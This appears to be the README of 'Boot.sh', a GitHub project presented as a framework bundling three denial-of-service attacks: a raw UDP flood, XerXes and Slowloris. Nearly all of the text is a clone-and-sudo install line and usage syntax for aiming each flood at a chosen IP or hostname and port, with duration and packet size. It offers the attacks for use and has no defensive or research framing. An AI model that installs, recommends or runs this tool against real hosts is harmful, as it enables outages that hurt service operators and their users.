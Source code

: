 # Boot.sh
Simple framework using three public DoS Attacks.

Install: **git clone https://github.com/OfficialDataBuster/Boot.sh.git; chmod +x install; sudo ./install**

Usage Raw UDP: ./boot.sh rawudp [ip] [port] [time] [size]

Usage XerXes: ./boot.sh xerxes [hostname] [port]

Usage Slowloris: ./boot.sh slowloris [hostname] [port] [https or http]

